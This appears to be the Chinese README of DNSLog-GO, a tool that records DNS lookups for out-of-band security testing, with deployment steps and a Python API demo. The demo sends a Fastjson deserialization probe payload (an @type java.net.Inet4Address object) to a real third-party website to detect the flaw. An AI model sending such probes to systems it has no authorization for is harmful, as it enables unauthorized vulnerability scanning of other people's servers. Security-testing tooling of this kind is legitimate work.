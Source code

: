 简介
---

DNSLog-GO 是一款golang编写的监控 DNS 解析记录的工具。

支持:

- docker一行命令部署
- WEB界面 或者 API 模式
- 多账号，可供多人使用。或者工具扫描和人工测试，数据互不干扰
- 支持通过置DNA A记录，用于临时测试或者ns服务自解析

演示截图:

![avatar](images/demo.png)

安装
---

详细图文教程:https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg

# 1.获取发行版

这里 https://github.com/lanyi1998/DNSlog-GO/releases 下载最新发行版,并解压

或者docker启动
```shell
wget https://raw.githubusercontent.com/lanyi1998/DNSlog-GO/master/config.yaml
#修改你的config.yaml文件
docker run -d -p 53:53 -p 53:53/udp -p 8000:8000 -v `pwd`/config.yaml:/DNSlog-GO/config.yaml --name dnslog --privileged --restart=always lanyi1998/dnslog-go:latest
```

# 2.域名与公网 IP 准备

```
搭建并使用 DNSLog，你需要拥有一个域名如(a.com),还需要有一个公网 IP 地址(如：1.1.1.1)
    
修改 a.com 的 NS 记录为 

NS1.vpsip.NIP.IO
NS2.vpsip.NIP.IO

如 
ns1.1.1.1.1.nip.io
ns1.1.1.1.1.nip.io

本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
    
注意: NS 记录修改之后部分地区需要 24-48 小时会生效
```

# 3.修改配置文件 config.ini

```
Http:
  host: 0.0.0.0
  port: 8000
  consoleDisable: false

User:
  #"token":"用户对应子域名"
  'admin': 'dnslog'

Dns:
  domain: demo.com
  ARecord:
    'www': '1.1.1.1'
```

# 4.启动对应系统的客户端

**注意服务端重启以后，如果修改了用户对应子域名，必须清空一下浏览器中的localStorage,否则会获取不到数据**

---

API Python Demo

```python
import requests
import random
import json


class DnsLog():
    domain = ""
    token = ""
    Webserver = ""

    def __init__(self, Webserver, token):
        self.Webserver = Webserver  # dnslog的http监听地址，格式为 ip:端口
        self.token = token  # token
        # 检测DNSLog服务器是否正常
        res = requests.post("http://" + Webserver + "/api/verifyToken", json={"token": token}).json()
        if res['code'] == 401:
            exit(res['msg'])
        self.domain = res['data']['subdomain']


    # 生成随机子域名
    def randomSubDomain(self, length=5):
        subDomain = ''.join(random.sample('zyxwvutsrqponmlkjihgfedcba', length)) + '.' + self.domain
        return subDomain

    # 验证子域名是否存在
    def checkDomain(self, domain):
        res = requests.post("http://" + self.Webserver + "/api/verifyDns", json={"Query": domain},
                            headers={"token": self.token}).json()
        if res["msg"] == 'success':
            return True
        else:
            return False


url = "https://www.baidu.com/"

dns = DnsLog("1.1.1.1:8000", "admin")

subDomain = dns.randomSubDomain()

payload = {
    "b": {
        "@type": "java.net.Inet4Address",
        "val": subDomain
    }
}

requests.post(url, json=payload)

if dns.checkDomain(subDomain):
    print("存在FastJosn")
```

## Stargazers over time

[![Stargazers over time](https://starchart.cc/lanyi1998/DNSlog-GO.svg)](https://starchart.cc/lanyi1998/DNSlog-GO)

## 404星链计划

[![Stargazers over time](https://github.com/knownsec/404StarLink-Project/raw/master/logo.png)](https://starchart.cc/lanyi1998/DNSlog-GO)

DNSlog-Go 现已加入 [404星链计划](https://github.com/knownsec/404StarLink)